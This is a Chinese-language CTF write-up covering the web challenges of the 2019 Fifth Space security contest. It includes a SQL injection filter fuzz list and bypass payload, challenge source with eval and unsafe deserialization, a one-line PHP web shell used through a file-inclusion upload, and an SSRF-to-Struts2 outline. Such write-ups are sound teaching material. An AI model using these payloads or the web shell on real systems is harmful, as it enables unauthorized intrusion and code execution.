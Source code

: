 ```yaml
---
title: 第五空间网络安全大赛Web Writeup
tags:
  - SSRF
  - SQLi
  - Writeup
  - CTF
date: 2019-08-30 15:53:34
---
```


> [如何评价2019第五空间网络安全创新能力大赛线上赛？](https://www.zhihu.com/question/343194108)


### 空相 100pt

param is id :)


```bash
# 1.http://111.33.164.4:10001/?id=1%27
param is id :)
Username:admin
Password:./25d99be830ad95b02f6f82235c8edcf7.php
# 2.http://111.33.164.4:10001/25d99be830ad95b02f6f82235c8edcf7.php?token=1DJATMVRTTTG8Q00000020PH2SVDPVQ1
flag{88d3e24c2cab001e159de86f8e8e3064}
```




### 五叶 300pt

![](/assets/images/move/2019-08-30-16-03-05.png)

fuzz如下：

```sql
# Wrong! 未过滤
' " - # & | ` ~ ! @ ; ,
exp database sleep ascii mid where limit 
# 非法字符 过滤
* =
and or from 
select union insert update updatexml
```

Payload:

```sql
' || username like 'admin' -- 
```

猜测查询语句可能为:

```sql
select * form table_name where password = ('$password')
```

当注入得出的**第一条**记录为`admin`时，回显flag位置。

![](/assets/images/move/2019-08-30-16-05-09.png)

### 空性 300pt

![](/assets/images/move/2019-08-30-16-08-28.png)

F12查看源代码，注意到以下内容：

```js
<script language="javascript">
      function check(){
        var value = document.getElementById("txt1").value; 
        if(!isRightFormat(value)){
          alert("账户或密码错误！");
          return false;
        } 
         
		if(!hasRepeatNum(value)){
          alert("账户或密码错误！");
          return false;
        } 
		document.write('<center><br/><a href="./151912db206ee052.php">Welcome to you</a>');  
      }
       
      function isRightFormat(input){
        return /Youguess$/.test(input);
      }

      function hasRepeatNum(input){
		 return /Youguess$/.test(input);
      } 
    </script>

```

`./151912db206ee052.php` =>听说你的Linux用的很6？=> .151912db206ee052.php.swp(vi非正常退出隐藏文件 )

```php
//vi -r 151912db206ee052.php
<?php
error_reporting(0);
class First{
  function firstlevel(){
        $a='whoami';
        extract($_GET);
        $fname = $_GET['fname']?$_GET['fname']:'./js/ctf.js';
        $content=trim(file_get_contents($fname));
        if($a==$content)
        {
                echo 'ok';;
        else
        {
                echo '听说你的Linux用的很6？';
        }
  }
}
$execfirst = new First();
$execfirst -> firstlevel();
?>
```
简单bypass：

```bash
http://111.33.164.4:10003/151912db206ee052.php?a=&fname=x
欢迎打开新世界的大门！
# http://111.33.164.4:10003/2d019a311aaa30427.php?refer=df53ca268240ca76670c8566ee54568a&t=20190828&dtype=computer&file=3792689baaabc7eb&hash256=bfe028187b99faa722cefb30a2aa24d5
```
上传文件（白名单校验）处URL参数如下：

```bash
refer=df53ca268240ca76670c8566ee54568a //computer
&t=20190828
&dtype=computer
&file=3792689baaabc7eb //文件名
&hash256=86bea2686eb3078dcfc93e7b598c8576 //Unix时间戳哈希
```

`file=filename`处存在文件包含，fuzz（脑洞）发现可以上传`.html`，=> `file=upload/xxxxxxxx`(不含文件后缀)，即可Getshell，Payload:

```php
<?php $f = $_GET[f]; $f($_GET[s]); ?>
```





### 八苦 300pt

tips：flag在/var/www/flag.php

```php
//http://111.33.164.6:10004/index.phps
<?php
// flag.php in /var/html/www
error_reporting(0);
class Test{
	protected $careful;
	public $securuty;
	public function __wakeup(){
		if($this->careful===1){
			phpinfo();	// step 1:	read source,get phpinfo and read it carefullt
		}
	}
	public function __get($name){
		return $this->securuty[$name];
	}
	public function __call($param1,$param2){
		if($this->{$param1}){
			eval('$a='.$_GET['dangerous'].';');
		}
	}
}
class User{
	public $user;
	public function __wakeup(){
		$this->user=new Welcome();
		$this->user->say_hello();
	}
}
$a=serialize(new User);
$string=$_GET['foo']??$a;
unserialize($string);
?>
```

题目被部分师傅们持续搅屎以后，主办方放弃了修复此题。（据学长描述是通过PHP7.4的新特性解出 XD

### 六尘 500pt

- 正解

```bash
SSRF扫描端口 => Tomcat 8.0.53:8080 => Gopher攻击内网Struts2
```

![](/assets/images/move/2019-08-30-16-31-34.png)

- 非预期

`./log/`泄露了Apache的access.log.txt，直接访问获取flag。

```bash
10.2.4.115 - - [27/Aug/2019:16:24:12 +0000] "GET /flagishere/6be8b547d6db1d213c1ceecc30b3cb24.php?token=1DJ9R32OAQ81NF00000020PHT0AS6V7Usss HTTP/1.1" 200 211 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0"
```

### Reference

- [👍👍👍 Iv4n | JBY](http://iv4n.xyz)


